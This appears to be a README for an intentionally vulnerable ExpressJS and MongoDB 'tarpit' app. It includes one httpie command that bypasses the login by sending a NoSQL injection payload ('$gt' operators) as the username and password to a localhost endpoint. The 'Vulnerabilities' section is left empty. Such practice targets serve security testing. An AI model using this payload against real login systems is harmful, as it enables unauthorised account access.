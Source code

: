 # NodeJS Tarpit

An ExpressJS (tarpit) application using mongoDB.

I am using [httpie](https://httpie.org), an alternative to curl to trigger exploits.

## Exploits

Login can be exploited using the query as the username and password are not validated

```
http  --print=HB POST http://localhost:8089/api/v1/login username:='{"$gt": ""}' password:='{"$gt": ""}'
```

## Vulnerabilities

```

```
